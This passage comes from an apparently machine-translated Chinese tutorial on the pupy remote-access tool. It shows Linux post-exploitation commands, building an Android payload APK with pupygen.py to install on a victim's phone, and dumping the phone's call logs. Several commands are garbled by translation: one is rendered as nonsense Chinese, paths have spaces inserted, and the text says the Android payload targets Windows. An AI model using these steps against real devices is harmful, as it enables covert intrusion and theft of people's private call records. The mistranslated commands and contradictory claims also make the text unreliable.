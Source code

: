 ![](https://i1.wp.com/1.bp.blogspot.com/-tf7_KSjj9w0/XJCz0k8uoTI/AAAAAAAAAeU/2-ebDOTj7m8oBC2KMTAhdN45Lh1la31TgCEwYBhgL/s1600/18.png?w=640)

### **Linux后期开发**

在利用后，您可以使用以下命令获取有关目标系统的详细信息：

```
privesc_checker --linenum
```

![](https://i0.wp.com/2.bp.blogspot.com/-RqdH6Nv9XHE/XJCz04DWloI/AAAAAAAAAec/4272xmkt9QAZvp34bl-cHrsMGhiqu04PACEwYBhgL/s1600/19.png?w=640)

使用pupy，您还可以借助以下命令找出在目标系统上运行的所有漏洞：

```
exploit_suggester –shell / bin / bash
```

正如您在下图中所看到的，它为我们提供了目标系统容易受到攻击的所有利用的列表。

![](https://i2.wp.com/2.bp.blogspot.com/-pLeWe_ZVeNU/XJCz1cHxKSI/AAAAAAAAAeQ/4GcflFzmjq8HdWdTarq0xMNrolO6ypTegCEwYBhgL/s1600/20.png?w=640)

要获取有关目标系统的基本信息，例如IP地址，MAC地址等，可以使用以下命令：

![](https://i2.wp.com/2.bp.blogspot.com/-Te1lKV_Enlw/XJCz1jh6fJI/AAAAAAAAAeY/3YIVwVdTziUJCcSJD8kUo1aBA716f2dKwCEwYBhgL/s1600/21.png?w=640)

### **Android开发**

现在，我们将使用以下命令创建一个Android有效负载以利用Windows：

```
./pupygen.py -O android -o /root/shell.apk
```

![](https://i1.wp.com/4.bp.blogspot.com/-5tjem2Lme5E/XJCz1xHJrjI/AAAAAAAAAeQ/qC2gg_C8ZpIb1A8xmSYiPOCHqKLzmHDpwCEwYBhgL/s1600/22.png?w=640)

成功在受害人的Android Phone中安装shell.apk时，您将进行如下图所示的会话：

![](https://i0.wp.com/3.bp.blogspot.com/-WnXqLV7OPek/XJCz2Ham70I/AAAAAAAAAec/0JDaU71FWf4rUvAWIlxkSnJKyVxEu8mqwCEwYBhgL/s1600/23.png?w=640)

### **Android Post开发**

在利用后，您可以使用以下命令获取存储在目标设备上的呼叫日志：

```
调用-a-输出-文件夹/ root /调用
```

这里，

**-a：**指获取所有通话详细信息

**-output-folder：**指包含调用日志的输出文件的路径

![](https://i2.wp.com/3.bp.blogspot.com/-4CYhTx9m4iE/XJCz2mMdOGI/AAAAAAAAAeg/3Jk_OVqR_9MHrav3bcUzV3GZT0uQQaTsACEwYBhgL/s1600/24.png?w=640)

我们将在callDetails.txt上使用cat命令来读取呼叫日志。

